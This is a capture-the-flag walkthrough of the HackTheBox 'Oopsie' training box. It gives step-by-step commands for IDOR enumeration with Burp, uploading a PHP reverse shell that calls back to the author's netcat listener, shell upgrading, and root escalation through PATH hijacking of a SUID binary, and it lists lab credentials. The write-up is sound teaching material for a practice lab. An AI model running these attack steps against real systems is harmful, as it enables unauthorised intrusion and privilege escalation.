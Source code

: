 # Oopsie
This is the second box of the ‘Starting Point’ path from HackTheBox (a series of 9 boxes rated Very Easy).

![Oopsie](../Images/htb_oopsie_1.png)

**Tools: nmap, Burp Suite, gobuster, netcat.**

First of all, we can run a nmap scan — this machine’s IP is 10.10.10.28:
> nmap -n -sSV -sC -Pn 10.10.10.28

![Oopsie](../Images/htb_oopsie_2.png)

We can see that the ports 22 (ssh) and 80 (http) are open. Let’s investigate the http service, so we open Firefox and go to http://10.10.10.28:80

![Oopsie](../Images/htb_oopsie_3.png)

The website above doesn’t take us anywhere when we click in the options, so we should investigate it further using Burp Suite as our proxy.  
 We simply open Burp Suite and make sure that the ‘Intercept’ option under the ‘Proxy’ tab is set to ‘On’.  
  Now we go to the Firefox ‘Network settings’, and enable ‘Manual Proxy’, set it to 127.0.0.1, port 8080 and check the option below it (‘Also use this proxy for FTP and HTTPS’).  
 Next up, we refresh the website and check Burp, tab ‘Site map’ under ‘Target’.  
 (From now on, every time we refresh/change pages in our browser, we’ll need to click on the ‘Forward’ button at the ‘Intercept’ tab under ‘Proxy’.)

![Oopsie](../Images/htb_oopsie_4.png)

We see this ‘cdn-cgi’ directory, and under it there’s a ‘login’ directory. Upon accessing it (http://10.10.10.28/cdn-cgi/login/) we see a login form.

![Oopsie](../Images/htb_oopsie_5.png)

So, remember the previous box, Archetype? We should try some of those credentials. The ‘administrator’ username doesn’t work, but if we try ‘admin’ and the password ‘MEGACORP_4dm1n!!’ we successfully access the website’s administration section.

![Oopsie](../Images/htb_oopsie_6.png)

After taking a look around, we see that the ‘Uploads’ section can only be accessed by a ‘super admin’.

![Oopsie](../Images/htb_oopsie_7.png)

So, back to Burp. If we access the ‘Account’ tab in the website, we’ll see a request at the ‘Intercept’ tab in Burp, and some curious information.

![Oopsie](../Images/htb_oopsie_8.png)

Apparently, each user has an account ID and an User ID associated. We could try to manipulate this, to find out the IDs of the ‘super admin’ user. To do that on Burp, click on Ctrl+i to transfer this request information to the ‘Intruder’ tab. Under ‘Intruder’, go to the ‘Positions’ tab and click on the ‘Clear’ button on the far right, select the ‘1’ after the ID (first row of the request) and click on the ‘Add’ button. This way we’ll run a loop on this ID field, so we can test the responses and find the super admin. Now go to the ‘Payloads’ tab. I recommend creating a file with a list of IDs, from 1 to 100 — run this command in your terminal, and after that click on ‘Load…’ under ‘Payload Options’ and select the file you’ve just created.
> for x in $(seq 1 100);do echo $x;done > ids.txt

![Oopsie](../Images/htb_oopsie_9.png)

Next up, go to the ‘Options’ tab, and at the bottom of the page under ‘Redirections’, select ‘Always’ to Follow redirections, and check the ‘Process cookies in redirections’ box.

![Oopsie](../Images/htb_oopsie_10.png)

Now we just need to go back to the ‘Target’ tab and click on ‘Start Attack’. Another window will be open and the results will start to show up. If we order the results by ‘Length’, we notice that there are a few results with different lengths, and the request number 30 is on the top of the list.

![Oopsie](../Images/htb_oopsie_11.png)

If we select the request 30 and click on ‘Response’ under the list of requests, we can inspect the code. By the end of the response, we’ll be able to see the following information:

![Oopsie](../Images/htb_oopsie_12.png)

So that’s it, the ‘super admin’ ID is 86575, and from now on, everytime we need to Forward a request in Burp, before doing so, we need to change the ID after ‘user=’ to this one we’ve just found.

![Oopsie](../Images/htb_oopsie_13.png)

Now we can use this ID to access the ‘Uploads’ on the website. Upon doing so, we see a file upload form.

![Oopsie](../Images/htb_oopsie_14.png)

I’ve downloaded and extracted a php reverse shell from [pentestmonkey.net](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), edited the file php-reverse-shell.php and changed the IP field to my HTB VPN IP (10.10.15.54) and the port to a random one (10666). Now we just need to upload the file, remembering to change the ‘user=’ to 86575 every time we need to forward a request.

![Oopsie](../Images/htb_oopsie_15.png)

To find out where the uploaded files go, I ran a quick gobuster:
> gobuster dir -u http://10.10.10.28 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

![Oopsie](../Images/htb_oopsie_16.png)

The files are probably at /uploads then…let’s set our netcat listening session in the terminal and try to access the reverse shell file from the browser, changing the ‘user’ as always to 86575:  

**Terminal:**
> nc -vnlp 10666

**Browser:**
> http://10.10.10.28/uploads/php-reverse-shell.php

![Oopsie](../Images/htb_oopsie_17.png)

We have a shell, but it’s a simple (dumb) shell. To upgrade it to a fully interactive shell, I quickly checked if the box had python installed. ‘python -V’ returned an error, but ‘python3 -V’ returned the Python3 version. With that in mind, I’ve used the command below to quickly upgrade my shell:
> python3 -c ‘import pty; pty.spawn(“/bin/bash”)’

The official walkthrough suggest the commands below, I’m posting it here as an option:
> SHELL=/bin/bash script -q /dev/null  
> Ctrl-Z  
> stty raw -echo  
> fg  
> reset  
> xterm  

Upon checking it, we see that we’re logged in as www-data, so we can take a look into some folders, and eventually find the user.txt file containing the User flag, under /home/robert/

![Oopsie](../Images/htb_oopsie_18.png)

But besides that, we’re pretty stuck with this user. We should check the website’s folders at /var/www/html. After spending some time, we find the folder /cdn-cgi/login/ that contains some interesting files.

![Oopsie](../Images/htb_oopsie_19.png)

Quickly checking them reveals that the ‘db.php’ file has another user’s credentials saved.

![Oopsie](../Images/htb_oopsie_20.png)

So let’s access Robert’s user, providing the password found.
> su robert

![Oopsie](../Images/htb_oopsie_21.png)

Upon checking its id, we see that this user is part of a ‘bugtrack’ group. We should check what files this group has access to:
> find / -type f -group bugtracker 2> /dev/null

![Oopsie](../Images/htb_oopsie_22.png)

So we find the binary file ‘bugtracker’. Right away we notice that it has SUID permissions (the ‘s’ in the user ‘execute’ field, it runs ‘as’ its creator, in this case, root), we can run it to test. When it asks us for an ID, we can insert a random number just to see what it does.

![Oopsie](../Images/htb_oopsie_23.png)

There’s not much info in here, so a good option is to see what the binary does when you run it. We do so by checking its strings:
> strings /usr/bin/bugtracker

There’s the ‘cat /root/reports’ row that grabs our attention right away. We could abuse this to escalate our privileges. The official walkthrough explains this very well:  

“We see that it calls the cat binary using this relative path instead of the absolute path. By creating a malicious cat , and modifying the path to include the current working directory, we should be able to abuse this misconfiguration, and escalate our privileges to root. Let’s add the current working directory to PATH, create the malicious binary and make it executable.”
> export PATH=/tmp:$PATH  
> cd /tmp/  
> echo ‘/bin/sh’ > cat  
> chmod +x cat

And then we run the binary once again…

![Oopsie](../Images/htb_oopsie_24.png)

So now we’re root!  
At this point, I couldn’t read any files anymore in that shell, so I simply ran a ‘vim /root/root.txt’ and grabbed the root flag from inside the file.  

Through further enumeration of the box, we can find FTP credentials that can be useful in the next boxes of the Starting Point path:
> /root/.config/FileZilla  
> ftpuser  
> mc@F1l3ZilL4

![Oopsie](../Images/htb_oopsie_25.png)

**That’s all for now!**  
 We’ll keep in mind that some of the info collected (like credentials, folders…) can be useful in the next 7 labs of the ‘Starting Point’ path. Thanks for reading and keep hacking!
